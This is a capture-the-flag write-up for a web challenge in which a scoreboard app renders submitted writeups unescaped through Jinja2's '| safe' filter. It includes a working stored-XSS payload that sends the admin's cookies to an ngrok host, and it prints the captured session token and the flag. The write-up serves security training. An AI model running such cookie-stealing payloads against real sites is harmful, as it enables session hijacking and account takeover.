


# marvin_scoreboard

> I had a lot of plans for winter break, but I ended up spending a lot of time playing with ChatGPT instead. I thought I was going to have more time to spend on writing this awesome marvin challenge, but I started running out of time towards the end of winter break... But then I realized I could just use ChatGPT to write the challenge for me! ChatGPT obliged, with a brand new writeup approval page for coaches to use! Now you can submit a writeup and get it approved much more quickly due to the amazing new writeup approval page on the scoreboard. ChatGPT isn't known to be the most security-focused web developer though... Can you login as the administrator and get the flag?
>
> Note 1: You can access the flag here, once you're logged in: http://scoreboard.ctf-league.osusec.org/flag
>
> Note 2: The admin will visit your site automatically after you submit a writeup using the $writeup command in a DM to marvin.

## Solution

Upon going to the provided URL, we're redirected to a login page which we presumably have to bypass to get the flag:

<div align="center">

</div>

Huh that's a pretty old copyright, maybe it doesn't apply anymore :)
Jokes aside though, we can infer from the challenge description that submitting a writeup will be useful in obtaining the admin login token; maybe we can look through [the code we're given?](./provided/marvin_scoreboard.tar.gz)

```shell
# extract the provided tarball
$ tar -xzf marvin_scoreboard.tar.gz
# check for number of occurences of the string "writeup"
$ grep -r writeup marvin_scoreboard_release/ | wc -l
55
```

That's a lot of mentions to sift through, and more than I can show here :)
Here's one that looked interesting though (from the full `grep` output):

```shell
$ grep -r writeup marvin_scoreboard_release/
# --snip--
marvin_scoreboard_release/templates/approve_writeup_detail.html:    {{ writeup_html|safe }}
# --snip--
```

I wonder what safe does? [Stack Overflow](https://stackoverflow.com/a/48975437) provides a nice answer:

> With `| safe` Jinja2 will print symbols as they are in your variable, that means that it won't translate "dangerous" symbols into html entities (that Jinja2 does by default to escape "dangerous" ones). Use this option if you trust variable's content because in opposite case there can be vulnerabilities **for example XSS.** [emphasis mine]

Hmm, very interesting. It'd be a shame if someone was able to use XSS for nefarious purposes :)

Let's take a look at where this template is rendered for more context:

```python
# lines 303-320 of app.py
@app.route('/approve_writeup/<writeup_id>')
def approve_writeup_details(writeup_id):
    if check_auth(request):
        db_con = db.begin_sql_connection()
        writeup = db.sql_fetchone(db_con, "SELECT nickname, name, text FROM writeups INNER JOIN users ON discord_id=user_id INNER JOIN challenges on challenges.chal_id=writeups.chal_id WHERE writeup_id=%s", val=(writeup_id,))
        db.end_sql_connection(db_con)
        nickname, name, writeup_text = writeup
        # Check if the writeup contents are a link or markdown
        if writeup_text.startswith("http"):
            # If it's a link, generate html for an iframe preview
            writeup_html = f'<iframe src="{writeup_text}" width="100%" height="500"></iframe>'
        else:
            # If it's markdown, convert it to html
            print(repr(writeup_text))
            writeup_html = markdown.markdown(writeup_text, extensions=['fenced_code', 'codehilite', 'nl2br'])
        return render_template("approve_writeup_detail.html", username=nickname, challenge_name=name, writeup_html=writeup_html, writeup_id=writeup_id)
    # the user is not authenticated
    return redirect(url_for('login'))
```

So either an iframe is generated for the provided link, or the writeup is treated like Markdown and rendered to HTML which is then interpolated unescaped into the preview template, got it.
I see why using the `| safe` filter on user input may be a bad idea now :)
It's good for us though since now we can run arbitrary JavaScript in the admin's browser!
Aside from allowing us to generally wreak havoc, this will also help us log in to the necessary account to get access to the flag.

Taking a look at how logging in to the writeup review website works:

```python
# app.py lines 256-20 (some code omitted)
def check_auth(request):
    if 'token' in request.cookies:
        # look up the token in the database
        token = request.cookies['token']
        username = get_username_from_token(token)
        if username:
            return True
    return False

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        # --snip--
            if exp and exp < datetime.now():
                # create a new secure token
                token = str(uuid.uuid4())
            # store the token in the database and update expiration
            save_token(token, username)
            # set the cookie to the token value
            response = make_response(redirect(url_for('approve_writeup')))
            response.set_cookie('token', token)
            return response
        # --snip some more--
```

This means that authentication is done through the `token` cookie which contains a random version 4 UUID.
Why is knowing that useful?
Well, we can combine that knowledge with being able to submit arbitrary HTML (and therefore JavaScript) and doing a little XSS (cross-site scripting) to get the admin user's `token` cookie to be able to authenticate :)

Given that JavaScript was designed for the web, it should be no surprise that you can access a website's cookies in it via [`document.cookie`](https://developer.mozilla.org/en-US/docs/web/api/document/cookie).
That knowledge doesn't do us much good though if we're unable to obtain that value though, so we'll have to utilize some other method to do so.
Again, since JavaScript was designed with the web in mind it has the [`fetch()`](https://developer.mozilla.org/en-US/docs/Web/API/fetch) function conveniently available for our use.
We can combine these two things in order to obtain the value of the admin's `token` cookie by sending an HTTP request incorporating the admin's `document.cookie` value to a server we control.

I ended up just using [ngrok](https://ngrok.com/) to quickly make my laptop accessible to the internet, but you could also use other websites like [https://beeceptor.com/](Beeceptor), for example. ngrok is nice though since you only have to run one command:

```shell
$ ngrok http 8000
```

The port doesn't really matter, I just chose 8000 out of habit :)
Running this command should give you a bunch of output, including a link to a web interface and the URL we're exposed to the internet by, which should look something like https://68d2-128-193-154-149.ngrok.io.

Now that we have that up and running, we need to write some JavaScript that sends us the admin's `token` cookie using the fetch API I mentioned earlier. I ended up using the following (albeit compressed into one line):

```javascript
<script>
  fetch("https://68d2-128-193-154-149.ngrok.io/" + document.cookie).then(function(a) {
    console.log("haha");
  }).catch(function(a) {
    console.error("ono");
  });
</script>
```

Because the `fetch()` function returns a [`Promise`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise), you have to handle the response to the HTTP request and any errors that might come up, which is what the `.then()` and `.catch()` method calls are for (at least I think, I don't really know much JavaScript :)).
This essentially sends a GET request to our ngrok server with the path being the `document.cookie` value in the admin's browser, which should include their `token` cookie that we can use to log in.

After submitting that as a writeup to a random challenge and waiting a bit, we get the request we wanted:

<div align="center">

</div>

So there's our admin token! `c0d9ef74-358d-4eca-ad32-0881a1245df0` (ignore the bad gateway errors haha).
We can then set the `token` cookie through your browser of choice's developer tools (making sure to set the path of the cookie to `/`), and we can finally get the flag by navigating to [the provided url](http://scoreboard.ctf-league.osusec.org/flag): `osu{Ch4T9pt_15_th3_b35t_53cUR1TY_54b0t491N9_50LuT10n15t}`.
If you take one thing away from this it should be to think twice before using ChatGPT to write secure code :)
